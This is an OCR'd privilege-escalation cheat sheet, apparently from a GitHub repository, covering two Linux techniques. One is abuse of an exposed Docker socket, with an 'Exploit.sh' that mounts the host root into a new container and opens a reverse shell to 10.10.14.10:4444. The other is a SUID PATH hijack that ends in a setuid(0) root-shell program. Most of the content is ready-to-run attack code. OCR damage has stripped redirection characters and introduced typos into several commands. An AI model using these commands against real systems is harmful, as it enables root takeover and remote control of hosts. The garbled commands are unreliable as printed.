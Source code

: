 ## DOCKER SOCK EXPOSED
- Check if it is exposed 

		curl -s --unisx-socket /var/run/docker.sock http://localhost/images/json

- Exploit localy

	- Create a new docker
	- Execute a command when the docker is started

- Exploit.sh

		#!/bin/bash
		cmd="[\"/bin/sh\",\"-c\",\"chroot /tmp sh -c \\\"bash -c 'bash -i & /dev/tcp/10.10.14.10/4444 0&1'\\\"\"]"
		curl -s -X POST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$cmd,\"Binds\": [\"/:/tmp:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create?name=ghost1_root
		curl -s -X POST --unix-socket /var/run/docker.sock "http://localhost/containers/ghost1_root/start"

## EXPLOIT VULNERABLE PROGRAM WITH SUID BIT SET
- Find SUID/SGID files on the target:

		find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;
		2/dev/null
		...
		-rwsr-sr-x 1 root staff 6883 May 14 2017 /usr/local/bin/suid-env
		...

	The suid-env file should execute with root user permissions.

- Run strings on the SUID file:

		strings /usr/local/bin/suid-env
		/lib64/ld-linux-x86-64.so.2
		...
		service apache2 start

	The file could be trying to run the service program without a full path.

	We can verify this with strace:

		strace -v -f -e execve /usr/local/bin/suid-env 2	&1 | grep service
		[pid 14395] execve("/bin/sh", ["sh", "-c", "service apache2 start"],
		...

	Optionally, we can also verify with ltrace:

		ltrace /usr/local/bin/suid-env 2	&1 | grep service
		system("service apache2 start"

	This reveals that the system function is being used to execute the service program.

	Create a file service.c with the following contents:

		int main() {
		setuid(0);
		system("/bin/bash -p");
		}
